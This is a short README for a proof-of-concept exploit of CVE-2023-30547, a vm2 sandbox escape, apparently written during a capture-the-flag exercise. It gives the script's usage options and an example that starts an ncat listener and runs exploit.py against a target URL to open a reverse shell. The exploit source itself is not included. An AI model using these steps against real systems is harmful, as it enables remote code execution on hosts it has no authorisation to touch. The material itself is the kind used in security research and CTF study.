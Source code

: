 # CVE-2023-30547
This is a Proof-of-Concept to CVE-2023-30547 (https://nvd.nist.gov/vuln/detail/CVE-2023-30547). I created this PoC during a CTF.

## Usage
```bash
CVE-2023-30547 PoC [-h] [--url URL] [--lhost LHOST] [--lport LPORT]

PoC for the vm2 vulnerability CVE-2023-30547

options:
  -h, --help     show this help message and exit
  --url URL      Target URL
  --lhost LHOST  IP of the local host for a reverse shell
  --lport LPORT  Port of the local host for a reverse shell
```

## Example:
1. Terminal:
```bash
$ ncat -lnvp 1337
```
2. Terminal:
```bash
$ python3 exploit.py --url "http://vulnhost.local/run" --lhost 127.0.0.1 --lport 1337
```
